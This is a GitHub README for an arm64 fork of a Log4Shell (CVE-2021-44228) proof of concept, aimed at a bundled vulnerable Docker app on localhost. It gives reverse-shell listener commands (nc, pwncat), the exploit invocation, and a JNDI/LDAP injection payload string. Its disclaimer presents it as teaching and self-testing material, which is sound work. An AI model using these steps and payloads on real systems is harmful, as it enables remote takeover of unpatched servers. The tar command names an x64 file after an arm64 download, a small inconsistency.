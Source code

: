 # log4j-shell-poc-arm64v8
This is a fork optimized for arm64/v8 systems from [log4j-shell-poc](https://github.com/teimichael/log4j-shell-poc), a Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

## Workflow
### Java Environment
- Download `jdk-8u60-linux-arm64-vfp-hflt.tar.gz` from [Oracle archives](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)
- Run
```
tar -xf jdk-8u60-linux-x64.tar.gz
```

### Python Environment
```
pip install -r requirements.txt
```

### Run vulnerable app
```c
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc
```

### Exploit

* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```

Or start [pwncat](https://github.com/calebstewart/pwncat)
```py
python3 -m pwncat -lp 9001 -m linux
```

* Launch the exploit.<br>
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>



Disclaimer
-
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

